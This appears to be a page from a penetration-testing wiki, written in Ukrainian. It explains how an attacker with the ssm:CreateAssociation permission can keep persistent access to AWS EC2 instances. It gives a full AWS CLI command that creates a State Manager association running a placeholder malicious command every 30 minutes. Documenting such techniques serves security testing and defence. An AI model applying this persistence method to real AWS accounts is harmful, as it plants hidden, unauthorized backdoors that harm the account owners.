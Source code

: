 # AWS - SSM Perssitence

{{#include ../../../banners/hacktricks-training.md}}

## SSM

Для отримання додаткової інформації перегляньте:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### Використання ssm:CreateAssociation для збереження

Зловмисник з дозволом **`ssm:CreateAssociation`** може створити асоціацію State Manager для автоматичного виконання команд на EC2-екземплярах, керованих SSM. Ці асоціації можна налаштувати на виконання через фіксовані інтервали, що робить їх придатними для збереження, схожого на бекдор, без інтерактивних сесій.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Цей метод збереження працює, поки EC2 екземпляр керується Systems Manager, агент SSM працює, і зловмисник має дозвіл на створення асоціацій. Це не вимагає інтерактивних сесій або явних дозволів ssm:SendCommand. **Важливо:** Параметр `--schedule-expression` (наприклад, `rate(30 minutes)`) повинен відповідати мінімальному інтервалу AWS у 30 хвилин. Для негайного або одноразового виконання повністю пропустіть `--schedule-expression` — асоціація буде виконана один раз після створення.

{{#include ../../../banners/hacktricks-training.md}}
